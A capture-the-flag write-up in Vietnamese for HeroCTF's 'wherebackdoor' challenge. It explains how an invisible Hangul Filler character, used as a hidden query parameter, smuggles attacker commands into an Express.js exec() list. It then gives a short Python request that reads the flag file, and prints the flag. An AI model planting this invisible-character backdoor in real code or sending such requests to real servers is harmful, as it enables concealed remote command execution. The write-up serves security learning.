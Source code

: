 # HeroCTF- wherebackdoor

**Description**: Quên rồi nhưng mà tựa là hacker đã hack vào hệ thống và để lại 1 backdoor, mày tim được cái backdoor này không??

Challenges cho source-code:
```js
// .............
app.get('/server_health', cors(corsOptions), async (req, res) => {
    var { timeout,ㅤ} = req.query;
    const checkCommands = [
        '/bin/bash /home/player/scripts/fileIntegrity.sh',
        '/bin/bash /home/player/scripts/isUp.sh localhost:80',
        '/bin/bash /home/player/scripts/isUp.sh localhost:3000',ㅤ
    ];
// ............
output = ""
        await Promise.all(checkCommands.map(async (cmd) => {
            try {
                r = await exec(cmd, { timeout: t });
                output += r.stdout.trim() || r.stderr.trim();
            } catch (err) {
                output += "";
            }
            output += "\n"
        }));
// ...........
```

**Tham khảo**: https://certitude.consulting/blog/en/invisible-backdoor/

=> Dùng "HANGUL FILLER" để dấu backdoor
```
const { timeout,\u3164} = req.query;
// .....

const checkCommands = [
        'ping -c 1 google.com',
        'curl -s http://example.com/',\u3164
    ];
```
Ở đây hacker dùng "HANGUL FILLER" để dấu backdoor, sau đó mỗi lần muốn RCE chỉ cần nạp command vào tham số kí tự này là tham số, tham số này sẽ nằm ẩn trong hàm checkCommands mà dev không thể thấy


```python
import requests

url = 'https://apibackdoor.web.heroctf.fr'

r = requests.get(url+'/server_health?\u3164=cat ../flag.txt')

print(r.text)
```

**flag**: `Hero{1nv1s1b1e_b4ckd0or_w7f}`
